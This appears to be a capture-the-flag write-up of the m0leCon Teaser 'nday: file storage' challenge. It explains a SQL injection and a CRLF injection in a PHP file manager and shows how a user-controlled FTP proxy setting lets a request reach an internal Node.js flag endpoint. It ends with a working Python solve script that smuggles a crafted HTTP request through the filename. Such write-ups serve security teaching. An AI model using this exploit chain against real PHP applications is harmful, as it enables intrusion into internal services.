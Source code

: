 ```yaml
---

title: "nday: file storage - m0leCon Teaser CTF"
date: 11 September 2024
category: CRLF,SQLI
ctf: m0leCon Teaser CTF

---
```


This challenge is from the `m0leCon Teaser CTF`. It was an interesting but relatively easy challenge, so the write-up will be brief. The objective was to exploit `SQL Injection` (SQLi) and `CRLF` (Carriage Return Line Feed) vulnerabilities to retrieve the flag from an internal server. Two services were running: an FTP server and a Node.js application, alongside a PHP server running on Nginx.

---

## Services

### FTP
```dockerfile
COPY vsftpd.conf /etc/vsftpd/vsftpd.conf
```

The FTP service uses [`vsftpd`](https://en.wikipedia.org/wiki/Vsftpd), a popular FTP server for Linux.

### Node.js

```javascript
app.post("/flag", (req, res) => {
  if (!!req.headers["x-get-flag"]) {
    res.send(process.env.FLAG || "ptm{REDACTED}");
  } else {
    res.send("nope");
  }
});
```

Our goal is to send a POST request to the Node.js application with an `x-get-flag` header. In addition, there is another route, `/create-user`, which allows for creating a new user.

### PHP

- You can sign up by completing a Proof of Work (PoW).
- You can upload and download files.

#### *The server connects to the FTP service using `fopen`*:

```php
$ftp = @fopen("ftp://{$_SESSION['user']}:{$_SESSION['password']}@ftp/$filename", 'r', false, $context);
```

This retrieves the file and sends it as a response.

---

## Vulnerabilities

### SQLi
#### In `php/www/components/file_manager.php`:

```php
$stmt = $database->prepare("INSERT INTO files (owner, filename, size) VALUES (:owner, '$filename', :size)");
```

Here, the application directly incorporates user-specified values into the SQL query, allowing us to inject malicious input as the filename.

### CRLF
#### In the same file, there is a CRLF injection vulnerability:

```php
header('Content-Disposition: attachment; filename="' . urlencode($filename) . '"');
```

The same `filename` parameter introduces another vulnerability, allowing us to exploit CRLF injection.

---

## Exploit

```php
// @/php/www/components/file_manager.php
$opts = ['ftp' => $_SESSION['settings']];
$context = stream_context_create($opts);

// @/php/www/components/index.php
if (isset($_POST['settings'])) {
    $data = json_decode($_POST['settings'], true);
    if (!is_array($data)) {
        die;
    }
    $_SESSION['settings'] = $data;
}
```

The application uses session settings to create a stream context, which is user-controlled. PHP's FTP stream context allows a [`proxy`](https://www.php.net/manual/en/context.ftp.php) to be passed. By using this, we can send an HTTP request via CRLF injection.

---

### Solve Script
#### **Here is my solve script:**

```python
import requests
import json
import urllib.parse

url = "http://localhost:8080"
name = "x HTTP/1.1\r\nHost: ftp\r\n\r\n\r\nPOST /flag HTTP/1.1\r\nx-get-flag:"
data = f"'||(SELECT x'{name.encode().hex()}')||'"

file = {'file': (data, "")}
sess = {"PHPSESSID": "21n3bc7elm25b7r7lml2r7neq1"}

if requests.post(url, files=file, cookies=sess).status_code == 200:
    conf = {'settings': json.dumps({'proxy': 'tcp://ftp:3000'})}
    if requests.post(url, data=conf, cookies=sess).status_code == 200:
        res = requests.get(url + f"?filename={urllib.parse.quote(name)}", cookies=sess)
        print(f"Flag: {res.content}")
else:
    print("Failed!")
```

---